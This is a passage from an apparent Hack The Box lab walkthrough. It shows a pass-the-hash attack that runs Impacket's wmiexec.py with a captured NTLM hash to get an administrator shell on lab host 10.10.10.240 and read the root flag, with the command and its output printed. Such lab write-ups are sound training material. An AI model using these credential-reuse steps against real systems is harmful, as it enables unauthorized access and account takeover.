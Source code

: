 
### Shell

Those hashes will work for a Pass-The-Hash to get a shell as any of the
accounts, like administrator or the other administrator, cybervaca. Since
cybervaca has the root flag, I’ll get a shell as that user using `wmiexec`:

    
    
    oxdf@parrot$ wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef cybervaca@10.10.10.240
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
    
    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    licordebellota\cybervaca
    C:\>cd \users\cybervaca\desktop
    C:\users\cybervaca\desktop>type root.txt
    b32c5e3e************************
    

[« PivotAPI Walkthrough](/2021/11/06/htb-pivotapi.html)

[](/2021/11/08/htb-pivotapi-more.html)

